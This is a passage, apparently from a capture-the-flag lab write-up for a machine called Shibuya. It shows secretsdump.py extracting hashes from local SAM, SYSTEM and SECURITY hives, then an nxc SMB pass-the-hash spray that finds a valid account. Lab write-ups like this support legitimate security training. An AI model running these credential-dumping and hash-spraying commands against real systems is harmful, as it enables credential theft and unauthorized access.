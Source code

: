 ```bash
secretsdump.py -sam SAM -system SYSTEM -security SECURITY LOCAL
```

![image.png](/assets/images/Shibuya_VL/image%208.png)

We have some hashes and none of them worked correctly, but when we did a password spray using the hash of the operator account, it got a hit on the **simon.watson.**

```bash
nxc smb shibuya.vl -u usernames.txt -H 5d8c3d1a20bd63f60f469f6763ca0d50 --continue-on-success
```

![Screenshot_20251030_203047.png](/assets/images/Shibuya_VL/Screenshot_20251030_203047.png)
